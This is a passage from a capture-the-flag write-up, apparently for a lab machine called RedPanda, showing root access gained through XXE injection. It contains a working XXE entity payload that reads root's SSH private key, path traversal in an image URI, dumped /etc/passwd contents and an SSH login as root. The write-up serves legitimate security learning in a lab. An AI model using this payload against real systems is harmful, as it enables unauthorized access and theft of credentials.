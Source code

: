 I sent another tampered request and waited. My XML file was modified with the content of the passwd file.

```bash
woodenk@redpanda:~$ cat /tmp/eric_creds.xml                                                                           
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo>                
<credits>           
  <author>woodenk</author>
  <image>
    <uri>/img/greg.jpg</uri>  
    <views>9</views>
  </image>
  <image>                    
    <uri>/../../../../../../tmp/greg.jpg</uri>
    <views>2</views>
    <file>root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
...
```

I then use the same technique to read root's ssh private key.

```xml
woodenk@redpanda:~$ cat /tmp/eric_creds.xml 
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///root/.ssh/id_rsa"> ]>
<credits>
  <author>woodenk</author>
  <image>
    <uri>/img/greg.jpg</uri>
    <views>9</views>
  </image>
  <image>
    <uri>/../../../../../../tmp/greg.jpg</uri>
    <views>1</views>
    <file>&xxe;</file>
  </image>
```

I copied the returned key on my machine and used it to connect as root.

```bash
$ ssh -i root_id root@target
Welcome to Ubuntu 20.04.4 LTS (GNU/Linux 5.4.0-121-generic x86_64)

...

Last login: Thu Jun 30 13:17:41 2022

root@redpanda:~# cat root.txt 
REDACTED
```
